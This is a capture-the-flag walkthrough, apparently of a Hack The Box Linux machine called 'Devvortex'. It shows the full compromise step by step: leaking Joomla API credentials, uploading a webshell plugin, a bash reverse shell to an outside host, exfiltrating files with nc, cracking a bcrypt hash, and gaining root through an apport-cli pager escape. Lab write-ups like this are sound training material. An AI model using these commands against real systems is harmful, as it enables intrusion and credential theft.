







# Devvortex
## OS: Linux
## Difficulty: Linux

## Enumeration:

A port scan with nmap reveals the following:
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.105.250  --max-retries 1
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


We will need to add devvortex.htb to our hosts file.

Now let's take a look at the website.


Running ffuf reveals a "dev" subdomain.

```bash
sudo ffuf -u http://10.129.105.250 -H 'HOST: FUZZ.devvortex.htb' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 302 404
```

```
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 126ms]
```

I'll add this to the hosts file and take a look.


Running a bruteforce attack on the directories reveals the existence of robots.txt and README.txt.

```bash
gobuster dir -u http://dev.devvortex.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```
/.html                (Status: 403) [Size: 162]
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/.txt                 (Status: 403) [Size: 162]
/index.php            (Status: 200) [Size: 23221]
/home                 (Status: 200) [Size: 23221]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/README.txt           (Status: 200) [Size: 4942]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/robots.txt           (Status: 200) [Size: 764]
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
Progress: 13189 / 882244 (1.49%)
/LICENSE.txt          (Status: 200) [Size: 18092]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]

```

Looking at README.txt we find out that Joomla CMS is used. And by reading the robots.txt file we discover the existence of an administrator page.



I found this exploit https://www.exploit-db.com/exploits/51334.

Reading the script we can see there are two files which could contain sensitive information. Accessing those 2 reveals the following:

http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
{
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    },
```

http://dev.devvortex.htb/api/index.php/v1/users?public=true
```
data": [
    {
      "type": "users",
      "id": "649",
      "attributes": {
        "id": 649,
        "name": "lewis",
        "username": "lewis",
        "email": "lewis@devvortex.htb",
        "block": 0,
        "sendEmail": 1,
        "registerDate": "2023-09-25 16:44:24",
        "lastvisitDate": "2023-10-29 16:18:50",
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Super Users"
      }
    },
    {
      "type": "users",
      "id": "650",
      "attributes": {
        "id": 650,
        "name": "logan paul",
        "username": "logan",
        "email": "logan@devvortex.htb",
        "block": 0,
        "sendEmail": 0,
        "registerDate": "2023-09-26 19:15:42",
        "lastvisitDate": null,
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Registered"
      }
    }
```

We can use the credentials lewis:P4ntherg0t1n5r3c0n## to access the administrator page.



## Foothold

We can see the server uses an outdated PHP version. 

I also found a page where we can upload Joomla Extension.



We can use this page to gain RCE.

https://github.com/p0dalirius/Joomla-webshell-plugin

I uploaded the plugin in zip format.



Now we can interact with the shell at http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id .


And it works. Now I'll try to start a reverse shell.

Host:
```bash
rlwrap nc -lnvp 6666
```

Payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.142/6666 0>&1'
```



I'll need to find another way to obtain a shell.

I modified the mod_webshell.php to start a reverse shell with my machine, started a listening port on my machine and accessed the php file.



And it worked. I'll start an interactive shell and look around the system.

```bash
/bin/bash -i
```
## Lateral Movement

We know there is a msqli database on the system. I'll connect to it using the credentials found in the api configuration file and try to get some credentials.

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla

select name,password from sd4fg_users;
```

```
name    password
lewis   $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan paul      $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

We already have the password for lewis so I'll try to crack Logan's password.

```bash
hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'

[+] Blowfish(OpenBSD)                                                                                                                                                                                                                       
[+] Woltlab Burning Board 4.x                                                                                                                                                                                                               
[+] bcrypt


# 3200 blowfish

hashcat -m 3200 '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' /usr/share/wordlists/rockyou.txt

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

I'll try to login as Logan using ssh.

```bash
ssh logan@devvortex.htb 
tequieromucho
```


It worked! Now we can get the user flag.

```bash
cat ~/user.txt
```

## We got the user flag!

## Privilege Escalation

Let's see if we can run anything as the root user.

```bash
sudo -l

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

And we can. I will get the binary on my machine and analyze it.

Host:
```bash
nc -lvp 6666 >apport-cli
```

Target:
```bash
nc 10.10.14.142 6666 </usr/bin/apport-cli
```


We should be able to execute commands by the looks of it.
```python
    def ui_run_terminal(self, command):
        # we are already running in a terminal, so this works by definition
        if not command:
            return True

        subprocess.call(command, shell=True)
```

I found a CVE for this:https://x.com/7h3h4ckv157/status/1728753489839628604

We should be able to execute commands because the pager used should be "less". In "less" we can run commands like this:
```bash
!id
```

Let's take advantage of this. We will first need a crash file.
```bash
sudo /usr/bin/apport-cli -c crash.crash less

!

V
```



And it works! We are now root.

```bash
cat /root/root.txt
```

## We got the root flag!